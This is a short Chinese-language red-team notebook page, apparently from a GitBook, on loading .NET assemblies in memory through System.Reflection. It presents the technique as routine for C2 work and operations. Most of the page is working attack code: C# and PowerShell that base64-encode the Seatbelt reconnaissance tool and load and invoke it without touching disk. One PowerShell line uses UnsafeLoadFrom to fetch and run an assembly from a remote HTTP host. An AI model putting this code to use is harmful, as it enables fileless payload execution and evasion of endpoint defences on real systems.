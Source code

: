 # .NET Reflective Injection

## 简介

反射注入\(ReflectiveInjection\)这种技术也出来好多年了，实现原理大致是不依赖windows提供的loadlibrary函数，程序设计者自己在程序内实现pe的内存展开，由于是自己实现，所以不会在操作系统中有所记录，以及可以对展开的pe文件做一些处理如抹除DOS头，同时不会在peb的ldr链表中记录，发展至今反射注入几乎已经是所有c2的标配技术，github也有非常成熟的项目可供使用，不过由于使用量较大，建议还是简单修改一下再投入实战比较好。

上面提到的东西和本文没有任何关联\(略略略\)，.net自身提供了反射加载接口，由于支持内存加载，使用起来会非常方便，不过只能加载.net的程序集，在实战中我们也经常使用这个功能，本篇文章会记录一些System.Reflection命名空间的使用方法。

## 思路

这玩意也没什么思路

1. base64编码一个.net程序集
2. 把base64的程序集解码成一个内存数组
3. 使用System.Reflection.Assembly.Load内存加载
4. assembly.EntryPoint.Invoke调用入口点

## 代码

这里直接贴代码。

### c\#

```text
using System;
using System.IO;
using System.Reflection;

namespace MemoryLoadApplication
{

    class Program
    {

        static void Main(string[] args)
        {



            byte[] buffer = File.ReadAllBytes(@"C:\Users\Black Sheep\source\repos\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe");
            string base64str = Convert.ToBase64String(buffer);
            string dir = Directory.GetCurrentDirectory();
            buffer = Convert.FromBase64String(base64str);
            File.WriteAllText($"{dir}\\base64.txt", base64str);
            Assembly assembly = System.Reflection.Assembly.Load(buffer);
            assembly.EntryPoint.Invoke(null, new object[] { args });

        }
    }
}

```

### powershell

```text
$base64 = "TVqQAAMAAAAEAAA(前面生成的base64编码的程序集)";
$bins  = [System.Convert]::FromBase64String($base64);
$invoke = [System.Reflection.Assembly]::Load($bins);
[System.Console]::WriteLine($invoke);

$args = New-Object -TypeName System.Collections.ArrayList

[string[]]$strings = "-group=all","-full"

$args.Add($strings)

$invoke.EntryPoint.Invoke($N,$args.ToArray());
```

也可以远程加载

```text
$invoke = [System.Reflection.Assembly]::UnsafeLoadFrom("http://192.168.0.125/base");
```

### 实现效果

![](../.gitbook/assets/image%20%28218%29.png)

![](../.gitbook/assets/image%20%28217%29.png)

